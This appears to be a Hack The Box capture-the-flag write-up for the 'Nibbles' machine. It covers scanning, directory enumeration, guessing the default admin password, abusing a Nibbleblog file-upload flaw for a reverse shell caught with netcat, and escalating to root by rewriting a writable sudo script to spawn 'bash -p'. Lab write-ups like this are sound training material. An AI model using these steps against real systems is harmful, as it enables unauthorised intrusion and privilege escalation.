









# Nibbles - Easy

Target IP: **10.129.69.73**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.69.73 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.4.18.

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's navigate to the website.

It seems like a website that just displays text.



Let's look at the page source an see if there is anything else.

There is a comment telling us about a ```/nibbleblog``` directory.



Let's navigate to it. It seems to be a blogging site of some sort. It says powered by Nibbleblog, but we can't find a version number. There aren't any interesting functionalities either.



Let's enumerate further. Directory enumeration from ```/nibbleblog/``` gets us some interesting results.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@pwnbox7]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.69.73/nibbleblog/FUZZ -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.69.73/nibbleblog/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 2987, Words: 116, Lines: 61, Duration: 19ms]
content                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 6ms]
themes                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 6ms]
admin                   [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 6ms]
plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 6ms]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 7ms]
languages               [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 7ms]
                        [Status: 200, Size: 2987, Words: 116, Lines: 61, Duration: 25ms]
:: Progress: [87651/87651] :: Job [1/1] :: 6250 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

There is a README. Let's take a look.

We get a hit on a version here.



Let's look for any publicly disclosed vulnerabilities for Nibbleblog version 4.0.3.

There is a file upload vulnerability that we probably will use, CVE-2015-6967, but it requires admin credentials.

Let's dig deeper.

```/nibbleblog/content``` has directory listing enabled.



```/private/users.xml``` confirms the existence of an ```admin``` user.



I looked around all the directories I found, but there was no information about the password of the ```admin``` user. We could do some guessing. Maybe ```admin:admin```, ```admin:password```, ```admin:nibbles```, or ```admin:nibbleblog```?

There is also a log in page at ```/nibbleblog/admin.php```.

```admin:nibbles``` works. We are greeted with the admin panel of Nibbleblog.



Now we can come back to the aforementioned CVE. We can use the "My image" plugin to upload php code and execute it.



We see our uploaded file listed here.



Clicking on the file, we catch a shell as the ```nibbler``` user.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@pwnbox7]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.69.73 36170
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 17:04:45 up 36 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
```

We can proceed to get the user flag from here.

## Root Flag

We can run a script as ```root``` without a password.

```
nibbler@Nibbles:/$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is a ```personal.zip``` file in ```/home/nibbler```. It probably contains the ```/personal/...``` items.

We have full write privileges over ```monitor.sh```, the script that we can run as ```root```.

```
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls
personal  personal.zip	user.txt
nibbler@Nibbles:/home/nibbler$ cd personal
nibbler@Nibbles:/home/nibbler/personal$ ls
stuff
nibbler@Nibbles:/home/nibbler/personal$ cd stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la    
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We could just rewrite the entire script to spawn in a bash shell.

Here is our new script. Very simple.

```
#!/bin/bash

bash -p
```

After we run it with ```sudo```, we get a shell as ```root```.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
